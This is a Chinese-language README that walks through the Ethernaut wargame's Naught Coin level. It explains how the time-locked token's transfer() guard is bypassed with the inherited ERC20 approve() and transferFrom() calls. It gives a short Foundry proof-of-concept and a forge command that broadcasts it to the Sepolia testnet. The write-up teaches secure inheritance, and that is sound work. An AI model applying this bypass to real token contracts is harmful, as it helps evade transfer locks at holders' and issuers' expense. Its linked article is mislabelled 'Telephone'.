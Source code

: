 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/15-naught.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 15 - Naught Coin</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 15 - Telephone](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

你拥有所有token，但是需要锁定10年，如何现在就把它们全部转走呢？
<img src="../imgs/requirements/15-naught-requirements.webp" width="800px"/>

## 漏洞

NaughtCoin关卡有说简单也很简单，但是你是否真正意识到了ERC20的全部，它的意义在于，给我们上了关于正确实现继承函数的重要性的宝贵一课。

我们可以看到`transfer()`函数有一个`lockTokens` 修饰符。

```javascript
modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
}
```

看起来我们将无法使用`transfer()`函数将token转移到另一个地址。但在ERC20标准中，也有一个`transferFrom()`函数，它允许另一个地址在批准的情况下代表我们执行转账。

由于`transferFrom()`函数没有在NaughtCoin合约中实现，因此它的实现将是OpenZeppelin合约中定义的，没有`lockTokens`修饰符。

换句话说，我们可以使用`transferFrom()`函数将token转移到另一个地址，而不必担心时间锁。

## 解答

现在我们只需要通过`aprrove`函数给其他人授权全部余额，然后又被授权人转走全部余额即可。

```javascript
    vm.startPrank(player1, player1);

    uint256 playerBalance = instance.balanceOf(player1);
    instance.approve(player1, playerBalance);
    instance.transferFrom(player1, player2, playerBalance);

    assertEq(instance.balanceOf(player1), 0);
    assertEq(instance.balanceOf(player2), playerBalance);
    vm.stopPrank();
```

你可以在项目的根目录执行以下命令，进行验证；

```bash
forge script script/15_NaughtCoin.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

## 要点

- 从其他合约继承时一定要小心。并确保正确地实现继承函数。

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
